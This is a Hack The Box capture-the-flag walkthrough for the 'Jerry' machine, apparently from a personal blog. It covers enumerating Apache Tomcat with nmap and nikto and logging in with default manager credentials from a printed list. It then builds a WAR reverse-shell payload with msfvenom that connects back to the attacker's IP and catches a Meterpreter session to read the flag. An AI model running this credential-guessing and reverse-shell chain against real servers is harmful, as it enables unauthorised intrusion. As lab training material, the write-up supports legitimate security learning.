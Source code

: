 ```yaml
---
published: false
---
```

![htb_jerry.png]({{site.baseurl}}/_posts/htb_jerry.png)


### Htb - Writeup

## 1. Enumeration

Nmap
```ruby
# nmap -sC -sV -oA htb 10.10.10.95

Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
* Discovered Apache Tomcat/7.0.88 on port 8080

Nikto
```ruby
# nikto -h 10.10.10.95:8080

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.

```

* Discovered Apache Tomcat and JSP vulnerability 

## 2. Navigate to 10.10.10.95:8080
![8080.jpg]({{site.baseurl}}/_posts/8080.jpg)

access: http://10.10.10.95:8080/manager/html "Manager App" 

Username: tomcat
Password: s3cret

```ruby
list of Apache Default Credentials 
Username Password
admin 	password
admin 	
admin 	Password1
admin 	password1
admin 	admin
admin 	tomcat
both 	tomcat
manager manager
role1 	role1
role1 	tomcat
role 	changethis
root 	Password1
root 	changethis
root 	password
root 	password1
root 	r00t
root 	root
root 	toor
tomcat 	tomcat
tomcat 	s3cret
tomcat 	password1
tomcat 	password
tomcat 	
tomcat 	admin
tomcat 	changethis
```
source: "https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown"


## 3. Attack Vector
utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg]({{site.baseurl}}/_posts/war.jpg)

Crafting WAR file:
tools: msfvenom
```ruby
msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of war file: 52304 bytes
Saved as: war.war
```
extract file:
```ruby
jar -xvf war.war 
created: META-INF/
inflated: META-INF/MANIFEST.MF
created: WEB-INF/
inflated: WEB-INF/web.xml
inflated: yewdmyrhyi.jsp
```
* Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.

# 4. Setup Listener
tool: msf
```ruby
msfdb run
```
* quick way to start postgres and metasploit framework

after initilzation:
```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LOCALIP
set LPORT 9000
exploit
```

Access: http://10.10.10.95/war/yewdmyrhyi.jsp
* wait for reverse tcp connection

```ruby
[*] Started reverse TCP handler on 10.10.13.75:9002
[*] Sending stage (179779 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work
```

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

## 5. Final Thoughts
As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts were simply unsable due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.


-exec@will

## 6. Further Learning/Sources:

http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html
https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
https://www.windows-commandline.com/read-file-from-command-line/



